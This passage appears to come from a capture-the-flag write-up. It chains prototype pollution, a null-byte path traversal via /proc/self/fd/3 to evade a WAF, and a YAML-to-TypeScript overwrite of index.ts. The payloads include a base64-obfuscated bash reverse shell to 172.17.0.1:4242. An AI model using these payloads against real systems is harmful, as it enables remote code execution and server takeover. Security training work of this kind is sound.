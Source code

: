 So to bypass the WAF we just then traverse to `/proc/self/fd/3`.

```json
{
    "data": {
        "signed.name": "jeff",
        "signed.animalType": "emu",
        "signed.age": 12,
        "signed.crime": "assault",
        "signed.description": "clotheslined someone with their neck",
        "signed.start": "2024-03-02T10:45:01Z",
        "signed.release": "2054-03-02T10:45:01Z",
        "signed.__proto__": {
            "outputPrefix": "../../proc/self/fd/3\u0000"
        }
    },
    "signature": "5c9396d88b7765d1c69dd949adfcc1f82ed766cbf534c16297eed346a4b453f5"
}
```

# Part 4: Manipulating the Parsed YAML to Valid TypeScript

Now that we can overwrite `/app/src/index.ts`, we would need to manipulate the saved YAML into valid TypeScript syntax so that it could be executed and not throw a syntax error. The JSON below would result in the YAML file being valid TypeScript since types are defined after the `:` and the `/**/` comment out the rest of the stuff.

*input json*
```json
{
    "data": {
        "const a": "string = Bun.spawnSync({cmd:[\"bash\",\"-c\", \"echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQyNDIgMD4mMQ==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash${IFS}-i\"]});/*",
        "signed.name": "jeff",
        "signed.animalType": "emu",
        "signed.age": 12,
        "signed.crime": "assault",
        "signed.description": "clotheslined someone with their neck",
        "signed.start": "2024-03-02T10:45:01Z",
        "signed.release": "2054-03-02T10:45:01Z",
        "signed.__proto__": {
            "outputPrefix": "../../proc/self/fd/3\u0000"
        },
        "z": "hi */"
    },
    "signature": "5c9396d88b7765d1c69dd949adfcc1f82ed766cbf534c16297eed346a4b453f5"
}
```
*output YAML saved to `/app/src/index.ts` with TypeScript syntax highlighting*
```ts
const a: string = Bun.spawnSync({cmd:["bash","-c",
  "echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQyNDIgMD4mMQ==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash${IFS}-i"]});/*
signed.name: jeff
signed.animalType: emu
signed.age: 12
signed.crime: assault
signed.description: clotheslined someone with their neck
signed.start: 2024-03-02T10:45:01Z
signed.release: 2054-03-02T10:45:01Z
signed.__proto__:
  outputPrefix: "../../proc/self/fd/3\0"
z: hi */
```
